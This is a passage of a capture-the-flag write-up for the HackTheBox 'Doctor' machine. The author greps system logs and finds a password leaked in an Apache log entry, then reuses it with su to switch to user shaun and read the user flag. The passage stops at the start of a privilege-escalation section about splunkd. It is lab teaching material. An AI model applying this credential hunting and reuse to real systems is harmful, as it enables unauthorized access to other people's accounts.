 ```console
syslog.1:Sep 28 11:11:42 doctor systemd[1]: Condition check resulted in Dispatch Password Requests to Console Directory Watch being skipped.
syslog.1:Sep 28 11:11:42 doctor systemd[1]: Started Forward Password Requests to Plymouth Directory Watch.
syslog.1:Sep 28 11:11:42 doctor kernel: [    3.085739] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1001@8612c285930942bc8295a5e5404c6fb7-000000000000d0e1-0005ae7b997ca2d8.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-000000000000cf5a-0005ae7b98c1acfe.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000003ac7-0005ab70dc697773.journal matches
Binary file journal/62307f5876ce4bdeb1a4be33bebfb978/user-1002@84e1503b20fd49eca2b6ca0b7d6fdeeb-00000000000176d6-0005af5694057aa6.journal matches
dmesg:[    3.085739] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
dmesg.0:[    4.007137] systemd[1]: Started Forward Password Requests to Wall Directory Watch.
```
And there was one particular entry for reseting the password which I found interesting.
```console
apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
## Listing the home directory
```console
web@doctor:/var/log$ ls /home
shaun  web
```

As credential reuse is very common, I tried to login to shaun's account with that password.
```console
 web@doctor:/var/log$ su shaun
Password: 
shaun@doctor:/var/log$ 
```
And we are on the box as user shaun.

## Reading user.txt
```console
shaun@doctor:~$ ls
user.txt
shaun@doctor:~$ cat user.txt 
5160************************5fa
```

# Privilege Escalation to root
There was another port  8089 that was open which was running splunkd from our nmap scan.
